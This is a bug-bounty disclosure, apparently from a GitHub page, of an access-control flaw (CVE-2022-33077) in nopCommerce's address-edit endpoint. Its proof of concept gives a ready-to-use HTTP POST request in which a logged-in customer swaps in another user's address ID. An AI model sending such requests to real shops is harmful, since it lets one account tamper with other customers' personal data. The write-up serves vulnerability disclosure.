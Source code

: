 ```yaml
---
tags: bugbounty
---
```


# Description

There is an access control vulnerability affecting nopCommerce (≤ 4.50.2) and also affecting the upcoming beta version (4.60). The vulnerability lies in the “addressedit” endpoint, and a malicious customer can modify addresses of other users on the site. This has been assigned CVE-2022–33077.

# Proof of concept

1. Register 2 customers (C1 and C2) and add addresses (A1 and A2) for both of them respectively. Note down the address Id of both the created addresses (let it be A1_ID and A2_ID). We will now login as C1 and modify A2.
2. Login as C1 and capture the POST request to edit your address as shown below. I’ve highlighted 4 parameters that you need to replace.

    ```
    POST /customer/addressedit/<A1_ID> HTTP/2
    Host: localhost
    Cookie: <C1_Session_Cookies_Here>
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 506
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: iframe
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Address.Id=<A2_ID>&Address.FirstName=testing&Address.LastName=123&Address.Email=hello@hello.lcom&Address.Company=&Address.CountryId=211&Address.StateProvinceId=0&Address.City=sdv&Address.Address1=dsv&Address.Address2=&Address.ZipPostalCode=sdv&Address.PhoneNumber=12&Address.FaxNumber=&__RequestVerificationToken=<C1_CSRF_TOKEN_HERE>
    ```
3. Upon firing the above request with C1’s session tokens, the address of C2 will be updated. First the server is checking whether the addressID in the URL belongs to the Session token provided in the cookies, and then it is simply updating the address ID inside the POST request body. Logically, it should only update what it validates.

## Video POC
[![nopCommerce IDOR POC](https://img.youtube.com/vi/ccZxLXVdef0/0.jpg)](https://www.youtube.com/watch?v=ccZxLXVdef0)